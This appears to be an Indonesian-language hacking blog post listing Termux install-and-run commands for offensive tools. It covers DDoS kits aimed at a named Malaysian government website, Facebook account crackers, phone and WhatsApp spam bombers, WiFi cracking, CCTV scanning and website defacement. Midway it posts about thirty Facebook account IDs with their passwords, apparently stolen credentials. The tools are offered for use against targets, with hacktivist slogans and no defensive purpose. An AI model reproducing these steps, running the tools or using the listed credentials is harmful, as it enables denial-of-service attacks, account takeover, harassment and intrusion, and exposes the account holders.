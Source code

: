 WEB=malaysia.gov.my   HARI INI 16-APRIL-2019 JAM 15.00 WIB   TOOL ATTACK?  -=NEW TOOL=- ================= Win32 attack ================= apt install git apt install python apt install bash apt install toilet apt install lolcat git clone https://github.com/BPCATTACKER/DOS-TOOKITS cd DOS-TOOKITS sh DoS-TOOKIT.sh  APA YG BARU? -PERBAIKAN ERROR SAAT MENGIRIM PACKET ATTACK -DLL  ================ DDOS BPC http://github.com/BLACK-PHANTOM-CYBER/DDOS-BPC/ cd DDOS-BPC python2 SPOONDDOS.sh =================== Ingat sebelum attack harus cek ip dulu karena ip bisa berubah-ubah Dgn cara Ketik di termux  ping malaysia.gov.my  Salam NASIONAL CYBER ASOSSIATION   LEBIH BAIK MENCOBA DAN GAGAL DARI PD TIDAK MENCOBA SAMA SEKALI   YG SEBAR GW DOAIN DAPAT PAHALA DAPAT PAHALA  Spam Call Unlimited $ pkg update &amp;&amp; pkg upgrade $ pkg install php $ pkg install git $ git clone https://github.com/Aditya021/SpamCall $ cd SpamSms $ php SpamCall.php Masukan No Target ===> Mode Banyak (y/n) ===> UNTUK Spam Lebih Dari 1 JumlahSpam ===> Masukan Jumlah yang ingin dispam🙏🙏🙏🎭🎭🇲🇨  Siapa tau ada yang mau nih sc Cara install tool Mr.Rv1.1 $apt update &amp;&amp; apt upgrade $pkg install git $pkg install gem $pkg install figlet $gem install lolcat $git clone https://github.com/Mr-R225/Mr.Rv1.1 $cd Mr.Rv1.1 $sh Mr.Rv1.1.sh  tool install $ apt update &amp;&amp; apt upgrade $ apt install git $ git clone https://github.com/aryanrtm/4wsectools cd 4wsectools chmod 777 tools ./tools  TOOL FSOCIETY $ git clone https://github.com/manisso/fsociety $ cd fsociety $ ./install.sh $ ls $ python2 fsociety.py  Assalamualaikum wr.wb Ni gw bagi SC DARK-FB(VIP-VPRO) &amp; Gw bagi2 akun FB untuk kalian   Ni scripst HACK FB NEWW  (VIP.VPRO) NO LISENSI ∞∞∞≠BY MR.M4RCH3LL≠∞∞∞  $ pkg update &amp;&amp; pkg upgrade $ pkg install git $ pkg install python2 $ pkg install mechanize $ pkg install request $ git clone https://github.com/m4rche3ll-cyber/dark-vpro $ cd dark-vpro $ python2 dark-vpro.py  NI akun FB untuk kalian smua  [OK✓] 100037694627558 | Syla12345 [✓] 100037988325303 | Feri123 [✓] 100037977879771 | Rifaa123  [OK✓] 100037091885666 | Sutris12345 [OK✓] 100037229983265 | Kahfi123  [OK✓] 100037166443432 | Munir123 [OK✓] 100037216997895 Nawawi123 [OK✓] 100037665398302 | Ponatim123 [OK✓] 100037974392506 | Andri123 [OK✓] 100037679447951 | Andika123 [✓] 100037946790741 | Sutres123 [✓] 100038002561349 | Aghni123 [✓] 100038113410131 | Blaster123 [✓] 100037710525968 | Noffal123 [✓] 100037988325303 | Feri123 [✓] 100037590739244 | Agus123 [✓] 100037576672206 | Kenyot123 [✓] 100037974392506 | Andri123 [OK✓] 100037714800465 | Dafa123 [OK✓] 100037869518631 | Ervan123 [OK✓] 100037354215333 Tans12345 [OK✓] 100037553282746 | Rifal123 [OK✓] 100037114456712 | Afif12345 [OK✓] 100037388647024 | Doni123 OK✓] 100037155800753 | Ikna123 [OK✓] 100037360233177 | Udin123 [OK✓] 100037089379481 | Dafa123 [OK✓] 100037388887005 Ridwan123 OK✓] 100037199269083 | Rifki123 [OK✓] 100037446305432 | Bima123  Gunakan dengan bijak !!!  Kalau kalian ingin tanya lebih / ada masalah Kalian bisa wa saya  No wa ADA DI SC NYA/ komen di bawah  Jangan lupa SUBSCRIBE (FREE) ,agar channel ini berkembang ,,&amp; juga we akan membuat sc2 yang bermanfaat bagi kalian semua   Link grup wa : https://chat.whatsapp.com/KxTHh6xi9OgEEl41UDURE9  Oke , terimakasih:)  Wassalamu'alaikum wr.wb    Aldaynoobz  Selasa, 23 April 2019  Script-Termux                        We are anonymous                            We are legion                        We do not forgive                         We do not forget                                Expect us   ￼     DDOS ATTACK (TROJAN)  $ apt install git $ apt install python $ apt install bash $ apt install toilet $ apt install lolcat $ git clone https://github.com/BPCATTACKER/DOS-TOOKITS $ cd DOS-TOOKITS $ sh DoS-TOOKIT.sh  pilih no 1 lalu enter, lalu masukkan ip target dan enter attack sedang berjalan!  DDOS ATTACK  $  pkg update $  pkg upgrade $  pkg install python $  pkg install git $  git clone https://github.com/cyweb/  hammer $  cd hammer $  python hammer.py $  python3 hammer.py -s(ipnya cari sendiri di IP CHACKER) -p 80 -t 135   BOBOL-WIFI( root)  $ apt update &amp;&amp; apt upgrade $ pkg install git $ git clone https://github.com/esc0rtd3w/wifi-hacker $ cd wifi-hacker/ $ chmod +x wifi-hacker.sh $ ./wifi-hacker.sh   HACK CCTV $ pkg update  $ pkg upgrade -y  $ pkg install python2 $ pkg install git  $ git clone https://github.com/GUNAWAN18ID/cctv.git  $ pip2 install requests  $ cd cctv  $ python2 scanner.py   SPAM CALL   $ pkg update $ pkg upgrade $ pkg install git $ pkg install python2 $ git clone https://github.com/MRRUXHANTAC270/RUXH4N_SPAM $ cd RUXH4N_SPAM $ python2 RUXH4N_SP4M.py8  Pilih nomor target jangan lupa pake (+62) ===>> +6285xxxxx Pilih jumlah spam ====>>>misal:100 Done :v  DEFACE WEBDAV  $  pkg update &amp;&amp; pkg upgrade $  pkg install bash $  pkg install git $  pip2 install termocolor $  pip2 install lolcat $  git clone https://github.com/MRRUXHANTAC270/Deface-W3BD4F $  cd Deface-W3BD4F $  sh Webdav.sh  Masukan script html     Lalu pilih web vulnya >:)                  Cek               👇🏻👇🏻👇🏻  $apt install python2 $apt install git $apt install php $apt install bash $apt install nano $apt install toilet $git clone https://github.com/MRRUXHANTAC270/cek $cd cek $ls $sh cek.sh  HACK FACEBOOK TARGET  $pkg update &amp;&amp; pkg upgrade $pkg install python2 $pkg install git $git clone https://github.com/MRRUXHANTAC270/Facebook-target $cd Facebook-target $python2 fb.py  SILAHKAN DOWNLOAD WORD LIST NYA TERLEBIH DAHULU https://sfile.mobi/4UugtYlifYk  Masukin id target ...  Lalu klik /sdcard/password.txt  SCRIPT DEFACE  $apt update &amp;&amp; apt upgrade $apt install python2 $apt install git $apt install php $apt install bash $apt install nano $apt install toilet $git clone https://github.com/MRRUXHANTAC270/scriptdeface $  cd scriptdeface $  python2 now.py  SPAM WHATSAPP  $  apt update
